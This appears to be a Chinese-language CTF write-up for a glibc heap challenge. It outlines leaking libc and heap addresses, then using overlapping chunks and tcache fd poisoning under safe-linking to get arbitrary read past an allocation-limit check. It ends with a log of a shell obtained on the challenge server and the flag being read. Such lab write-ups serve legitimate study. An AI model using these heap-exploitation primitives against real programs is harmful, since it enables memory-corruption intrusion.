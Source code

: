 # 思路
## 常规泄漏heap，libc
- 1. tcache打满
- 2. free后进unsortbin
- 3. create(p1), create(p2)
- 4. show(p1)泄漏libc，存放main_arena偏移
- 5. show(p2)泄漏heap, 存放heap偏移

## 任意地址读写
### 常规方法
- 1. 通过叠堆，制造两个chunk指向同一处，p1,p2
- 2. malloc(p3, 0x18), free(p3), free(p1)
- 3. edit(p2, address^heap>>12)     # 改写tcache的fd
- 4. mallocp1, 0x18), malloc(p2, 0x18) 
- 5. read(p2), write(p2)    

此时的chunk指向address，我们刚刚在第3步写入的地址

### 本题方法
此题中有这段代码，不能超过堆地址, 所以想通过`__libc_argv`或者`environ`来泄漏栈行不通
```
chunks[idx] = malloc(sz);
if (chunks[idx] > limit) {
    puts("hey where do you think ur going");
    // if (malloc_usable_size(chunks[idx])) free(chunks[idx])
    chunks[idx] = 0;
    break;
}
```

通过修改，能够`任意地址读的作用`, 方法如下
- 1. 通过叠堆，制造两个chunk指向同一处，p1,p2
- 2. malloc(p3, 0x18), free(p3), free(p1)   # 3个chunk大小要一致
- 3. edit(p2, address^heap>>12)     # 改写tcache的fd
- 4. malloc(p1, 0x18), malloc(0x18)  # 第一个malloc赋给p1
- 5. free(p1)
- 6. read(p2) 

内存值为：read(p2) ^ (heap >>12) ^ (address ^ 12)?

### why 内存值为：read(p2) ^ (heap >>12) ^ (address ^ 12)??
```
p1 的next计算方法：
1. next = address >> 12 ^  [address]
2. next = heap >> 12 ^ read(p)
```

```
>>> hex(0x56441f4f9cc0 >> 12 ^  0x7ffde39e91d5 ^ 0x7ff5c58f46e0 >>12)
'0x7fff78833dd8'
```
![](https://r2.20161023.xyz/pic/20250618142043832.png)
![](https://r2.20161023.xyz/pic/20250618142123744.png)

# debug
usable_size比真实size要大
```
uint16_t usable_size = sz > 0x18 ? (sz+7&~0xf)+8 : 0x18;
sizes[idx] = usable_size;
```

## main_arena
0x7f5868dfad10 - 0x7f5868bf7000 = 0x203d10

# getshell
本地exp能出，在国内打远程服务器太慢，超时被断开，需要在国外vps运行, 有部分死代码，执行不成功，再跑一次
```
[DEBUG] Sent 0x20 bytes:
    00000000  5b f7 05 27  5f 7f 00 00  2f b4 11 27  5f 7f 00 00  │[··'│_···│/··'│_···│
    00000010  2f 88 f7 26  5f 7f 00 00  50 87 fa 26  5f 7f 00 00  │/··&│_···│P··&│_···│
    00000020
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0xd bytes:
    b'flag.txt\n'
    b'run\n'
flag.txt
run
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x7c bytes:
    b'.;,;.{1_am_4_f1ag_gr3nad3_I_am_a_f14g_gren4d3_I_4m_4_fl4g_gr3nade_aHR0cHM6Ly93d3cuaW5zdGFncmFtLmNvbS9wL0RJZUg3alRwaXdNLw==}\n'
.;,;.{1_am_4_f1ag_gr3nad3_I_am_a_f14g_gren4d3_I_4m_4_fl4g_gr3nade_aHR0cHM6Ly93d3cuaW5zdGFncmFtLmNvbS9wL0RJZUg3alRwaXdNLw==}
$
```
![](https://r2.20161023.xyz/pic/20250618170726189.png)